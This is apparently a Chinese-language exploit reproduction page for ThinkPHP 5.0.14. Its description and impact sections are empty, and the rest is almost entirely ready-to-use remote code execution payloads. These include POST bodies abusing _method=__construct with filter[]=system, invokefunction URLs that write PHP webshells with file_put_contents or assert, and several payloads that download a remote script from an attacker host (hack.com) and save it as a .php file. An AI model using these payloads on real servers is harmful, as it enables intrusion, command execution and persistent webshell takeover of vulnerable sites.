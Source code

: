 ```yaml
---
title: Thinkphp 5.0.14
id: zhfly3151
---
```


# Thinkphp 5.0.14

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
post `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

### 1、常规命令

```
?s=index/think\app/invokefunction&function=&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php.jpg&vars[1][]=%3C?php%20phpinfo();?3E 
```

### 2、eval（''）和assert（''）被拦截，命令函数被禁止

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo(); 
```

```
http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js"))); 
```

### 3、基于php7.2环境下

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1 
```

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>
写进去发现转义了尖括号 
```

### 4、通过copy函数

```
 http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.php 
```